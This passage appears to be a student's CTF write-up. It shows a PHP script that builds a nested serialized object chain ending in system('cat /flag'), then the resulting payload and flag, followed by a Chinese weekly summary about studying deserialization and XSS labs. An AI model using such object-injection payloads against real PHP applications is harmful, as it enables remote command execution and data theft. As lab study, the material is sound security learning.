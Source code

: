 ```

 <?php
class entrance
{
    public $start;
}
class springboard
{
    public $middle;
}
class evil
{
    public $end;
}
$a=new entrance;
$a->start=new springboard;
$a->start->middle=new evil;
$a->start->middle->end="system('cat /flag');";
echo serialize($a);

O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:20:"system('cat /flag');";}}}
NSSCTF{4bd0b51d-f0c1-412d-8d1a-2a1a5b543308} 
```
## 总结
本周期中考试周在考试和学习中夹着，高数感觉有点危险了 ，感觉现在对反序列化链子分析有很大进步，但目前只做了三星的题可能还没上难度，尝试了一下xss注入，打了几关xss lab靶场，对这种注入算是有些理解了，但还是能力太差，hectf的web第一题最后一层黄师傅说是xss注入，但没找到注入点我，还得继续学啊，这次hectf在web方向竟坐大牢了。
![27d90d9a8c5ec86c14405dedaade165d.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1700390156305-960a202c-f5b0-48bf-bea5-fead66188960.png#averageHue=%23a9a48c&clientId=uf7ef146f-871d-4&from=paste&height=273&id=u8856fc37&originHeight=341&originWidth=406&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=77417&status=done&style=none&taskId=u637bad80-5dc0-4227-96b4-9ce8c32d070&title=&width=324.8)
